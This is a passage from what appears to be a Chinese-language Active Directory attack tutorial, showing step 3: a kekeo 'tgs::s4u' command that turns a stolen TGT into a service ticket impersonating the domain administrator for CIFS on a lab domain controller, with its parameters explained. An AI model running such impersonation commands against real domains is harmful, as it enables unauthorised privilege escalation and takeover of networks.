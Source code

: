 [![](assets/1705982146-00e0db6fd8fc6e6aa66332b04e190eac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223108-8d3ca778-b7a0-1.png)  
Step 3：使用kekeo申请TGS票据

```plain
tgs::s4u /tgt:TGT_al2ex@HACKE.TESTLAB_krbtgt~hacke.testlab@HACKE.TESTLAB.kirbi /user:administrator@hacke.testlab /service:cifs/dc.hacke.testlab

#参数说明
/tgt:上一步通过kekeo生成的tgt票据
/user:想要伪造的用户名写全称（用户名@域名）
/service:想要伪造访问的服务名（服务名/主机的FQDN名称）
```
